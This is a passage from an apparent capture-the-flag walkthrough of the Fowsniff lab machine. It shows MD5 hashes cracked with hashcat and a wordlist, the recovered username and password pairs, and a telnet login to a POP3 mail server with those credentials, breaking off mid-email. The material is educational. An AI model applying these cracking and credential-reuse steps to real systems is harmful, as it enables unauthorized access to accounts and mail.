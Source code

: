 ## Password Cracking

So we have 9 accounts with password hashes to check out that are all in **MD5** so this shouldn't take long to handle. I create a file called **hash.txt** with only the hashes in it and run it through **hashcat**:

`hashcat -m 0 -w3 -D 1,2 hash.txt rockyou.txt`

```
90dc16d47114aa13671c697fd506cf26:scoobydoo2
4d6e42f56e127803285a0a7649b5ab11:orlando12
1dc352435fecca338acfd4be10984009:apples01
19f5af754c31f1e2651edde9250d69bb:skyler22
8a28a94a588a95b80163709ab4313aa4:mailcall
f7fd98d380735e859f8b2ffbbede5a7e:07011972
0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
```

And mapping usernames to passwords shows us that 8 out of the 9 were cracked with the only one missing being user **stone**:

```
seina:scoobydoo2
parede:orlando12
tegel:apples01
baksteen:skyler22
mauer:mailcall
sciana:07011972
mursten:carp4ever
mustikka:bilbo101
```

I try to run a brute force mask attack against the **stone** user, as well as try a few things like **crackstation** and other sites but don't have any luck.

<br>

## POP3 Mail

I tried to login via SSH with the credentials we have but am unable, so I try to check to see if I can access any email on the open POP3 port. I'm able to login as **seina** and in her email is a temporary password we can use to **ssh** over to the system:

`telnet 10.10.196.26 110`

```
Trying 10.10.196.26...
Connected to 10.10.196.26.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
.
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
```